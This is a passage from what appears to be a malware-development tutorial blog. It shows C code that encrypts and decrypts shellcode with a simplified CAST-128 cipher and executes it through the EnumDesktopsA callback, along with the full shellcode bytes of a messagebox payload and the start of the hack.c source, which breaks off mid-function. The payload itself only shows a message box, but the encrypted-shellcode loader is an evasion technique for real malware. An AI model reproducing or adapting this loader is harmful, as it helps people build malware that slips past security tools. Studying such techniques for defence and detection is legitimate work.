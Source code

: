 ```cpp
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)
  NULL);
  return 0;
}
```

In the `main` function, a payload (shellcode) is defined, and the key schedule is created. The shellcode is then encrypted and decrypted using the `CAST-128` algorithm.    

As usually I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

and the decrypted payload is executed using the `EnumDesktopsA` function.

The full source code is looks like this (`hack.c`):     

```cpp
/*
* hack.c
* encrypt/decrypt payload 
* via CAST-128 algorithm
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/29/malware-cryptography-31.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define BLOCK_SIZE 8
#define ROUNDS 16
#define KEY_SIZE 16

uint32_t key[4] = {0x01234567, 0x89abcdef, 0xfedcba98, 0x76543210};

// CAST-128 round functions (simplified for demonstration)
void f1(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
```
